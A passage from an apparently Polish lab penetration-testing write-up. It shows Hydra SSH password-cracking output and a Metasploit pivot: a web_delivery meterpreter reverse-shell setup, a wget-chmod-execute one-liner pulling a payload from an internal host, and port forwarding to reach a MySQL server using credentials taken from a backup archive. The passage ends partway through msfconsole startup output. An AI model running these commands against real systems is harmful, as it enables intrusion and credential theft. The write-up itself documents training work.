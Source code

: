 ```bash
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 1
[STATUS] attack finished for 127.0.0.1 (waiting for children to complete tests)
[ERROR] could not connect to target port 24: Socket error: disconnected
[ERROR] ssh protocol error
[VERBOSE] Retrying connection for child 5
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-01 22:00:39
```
Już trochę lepiej, ale łamanie haseł przez pivoting to jest masakra. Nie wiem czy tak jest wszędzie, bo to moja pierwsza próba, ale podejrzewam, że szybko to nie działa.
{: .text-justify}

## MYSQL
Wracamy do Metasploita. Na ip _172.31.20.10_, porcie **3306** jest **MYSQL**. Też możemy na niego wejść przez *msfconsole* (ile się namęczyłem, zanim mi się udało bez błędu wejść, a okazało się, że to ładunek Metasploita coś miesza, o tym w czerwonej ramce). Login i hasło na **MYSQL**a było w archiwum _http://172.16.1.167:8115/timeclock/backup/all.zip_ w pliku **db.php**. Tę operację najlepiej zrobić na świeżo odpalonym **Metasploicie**. Parę razy mi się nie udało, bo w tle musiały być jakieś pozostałości i był błąd podczas łączenia się do bazy. Port **3306** zamieniłem na **3307**, bo ktoś może używać. Jeżeli zaś **3307** jest otwarty, to należy go zamienić na inny. Więc wychodzimy z **Metasploita** i ponownie wchodzimy. Poniżej jest cała procedura:
{: .text-justify}
<div class="notice--primary" markdown="1">
```console
use multi/script/web_delivery
set payload linux/x86/meterpreter/reverse_tcp
set target Linux
run -j
wget -qO jp4AKytE --no-check-certificate http://172.16.1.10:8080/IkIOzVOlj; chmod +x jp4AKytE; ./jp4AKytE& disown
sessions 1
portfwd add -l 3307 -p 3306 -r 172.31.20.10
```
```console
msf6 exploit(multi/script/web_delivery) > exit
[*] Server stopped.
root@kali:/home/szikers# msfconsole
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
[!] The following modules could not be loaded!../
[!]     /usr/share/metasploit-framework/modules/auxiliary/scanner/msmail/exchange_enum.go
[!]     /usr/share/metasploit-framework/modules/auxiliary/scanner/msmail/onprem_enum.go
[!]     /usr/share/metasploit-framework/modules/auxiliary/scanner/msmail/host_id.go
[!] Please see /root/.msf4/logs/framework.log for details.

Call trans opt: received. 2-19-98 13:24:18 REC:Loc

     Trace program: running

           wake up, Neo...
        the matrix has you
      follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
```